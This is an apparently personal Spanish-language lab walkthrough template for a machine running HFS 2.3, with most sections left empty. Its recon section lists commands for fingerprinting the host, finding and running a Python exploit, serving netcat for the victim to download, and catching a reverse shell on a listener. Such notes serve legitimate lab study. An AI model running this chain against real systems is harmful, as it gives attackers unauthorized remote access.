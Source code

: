 ## Summary

Tags: 
N
- IP -> 10.10.10.8
- Ports -> TCP (), UDP (idk)
- OS ->  
- Services & Applications
    -  -> 
    -  -> 

## Recon
- Comando -> **whatweb http://< URL>**  Nos dara una breve descripcion del gestor de contenidos del puerto 80
- Comando -> **searchsploit HFS 2.3** Buscamos vulnerabilidades, si encontramos con .py mucho mejor
Al exploit (2) en python lo modificamos, colocandoles nuestra IP
- **python2 hfs_exploit.py 10.10.10.8 80** Lo ejecutamos, en donde la especificamos la IP victima y su puerto 

Nos descargamos el netcat ya que debemos de ejecutar el comando anterior minimo 2 veces en donde buscara el netcat con un recurso compartido (El netcat debe ser para Windows) por lo que nos lo descargamos 
- **python3 -m http.server 80** Montamos el recurso compartido 
- **rlwrap nc -nlvp 443** Nos ponemos en escucha para recibir la revershell

## User


## Root